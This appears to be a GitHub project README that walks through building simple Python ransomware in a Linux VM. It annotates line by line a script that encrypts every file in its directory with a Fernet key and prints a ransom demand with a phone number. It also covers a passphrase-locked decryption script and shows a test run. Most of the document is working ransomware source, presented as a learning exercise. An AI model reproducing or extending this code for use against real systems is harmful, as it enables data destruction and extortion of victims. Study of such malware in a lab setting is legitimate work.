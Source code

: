 # Ransomware

Ransomware deployment using Python scripting

## Objective

As ransomware attacks have been on a steady upward trend, I wanted to take the time to understand the mechanics of one of the most popular cyberattacks methods.

### Skills Learned


- Python scripting
- Cryptography
 

### Tools Used

- Python
- Linux VM  
- Fernet

## Steps

First we are going to spin up an Ubuntu VM

Next we will create a directory with several files that we are going to test our ransomware on.

So we insert into the CLI "mkdir ransomware" to create the directory and inside the directory, run "echo "file content" > filename.txt" a few times to create several files.

Next we will create the Python script file.

![Encryption](https://github.com/user-attachments/assets/edf5a8c4-e0b2-4010-b4cf-8c5a9ea1bffd)

ref:

To make this project easier to read I will briefly notate each line of code seperated by "//" to explain its utility in the script.

First we have to include the shebang #! so that Linux runs the file as a script.

Import os // allows python to interact with the OS.

from cryptography.fernet import Fernet // 128bit AES

files = [] // This will create an empty list called files.

for file in os.listdir() // This is a for loop and will list all the files in the directory.

if os.path.isfile(file) // if object is a file add to encryption list

if file == "MALWARE.py" or file == "thekey.key" or file == "DECRYPT.py" : (next line)continue(next line) files.append(file) // This is seperating our script files that are in the same directory from the file list we created earlier in the script.

print(files) // Will display the "files" list in the terminal.

ref: test print

key = Fernet.generate_key() // This will generate the encryption key.

with open("thekey.key", "wb") as thekey: // This line uses the open function to open the file in script in write mode and reference the variable as "thekey" throughout the script.

for file in files: // This is creating a loop for the file's in the files list created earlier.

with open(file, "rb") as thefile: // This line will open the file's in the list in read binary mode and assigned the alias "thefile".

contents = thefile.read() // we have now made contents a alias to the file.read.

contents_encrypted = Fernet(key).encrypt(contents) // This line encrypt the contents with the Fernet key.

with open(file, "wb") as thefile: // sets script to write to "thefile".

thefile.write(contents_encrypted) // writes the "contents_encrypted" to the file.

print("All of your files have been encrypted. Contact 890-589-5542 to decrypt your data, for a price") // This is displayed in the terminal when the Python script is executed

DECRYPT

![Decryption](https://github.com/user-attachments/assets/5d1837e5-909c-4cf7-9fe0-a973e5fd3e94)

ref:

The first half of the script from the beginning up until the "print(files)" line is the same as the MALWARE.py script, I will not reiterate these lines for obvious reasons.

with open("thekey.key", "rb") as key: // opens key file in read binary mode making "key" a variable.

secretkey = key.read() // The "secretkey" equals the contents of the file variable assigned as "key", the ".read" will make the encryption key functional in the decryption portion of the script.

secretphrase = "112113114" // This is going to be the secret password that decrypts the files.

user_phrase = input("Enter the secret phrase to decrypt your files\n") // input is going to allow the user to type the password into the terminal.  

if user_phrase == secretphrase: // If the password is entered correctly by the user, the nested for loop will execute.

The code of the for loop is going to remain very similar to the for loop in the MALWARE.py script with a few small changes. 

contents_decrypted = Fernet(secretkey).decrypt(contents) // This decrypts the files using the decryption key generated by Fernet. 

thefile.write(contents_decrypted) // The contents are now written back to the file.

print("Files decrypted, thank you for your business") // the last sequence of our if statement will print this message informing the user that their files have been decrypted.

else: // If  the "if" statement is false the else statement will run.

print("Wrong passphrase") // When the user inputs an incorrect password upon being prompted for the secret phrase, this output will print in the terminal.


Lets test our scripts!

![results](https://github.com/user-attachments/assets/ef007d90-74cf-40ae-b97d-67d0827bd6ac)

cat file2.txt // This will display the contents of a the files.

cat thekey.key // Here I am showing the 128bit encryption key, this file is appended from the file list that becomes encrypted in our MALWARE.py script, 
if our encryption key got encrypted, it would be a messy situation.

python3 MALWARE.py // We have now executed our Python script in the directory. 

You now see a list of the files encrypted and our message we left for the user on who to contact to decrypt the files, for a price.

cat file2.txt // As you can see, the data in file is now encrypted.

python3 DECRYPT.py // Now that the files have been encrypted lets decrypt them with our decryption script.

The script prompts us for the secret phrase which was set in the DECRYPT.py script.

We then get a message thanking us for our business, and that the files have been decrypted.

cat file2.txt // Now when we check our file we have the original contents of the file because our data has been decrypted.




 




with = resource management as = used along with to allocater where to input resources / for = loop

NO DROPPER

*Ref 1: Network Diagram*
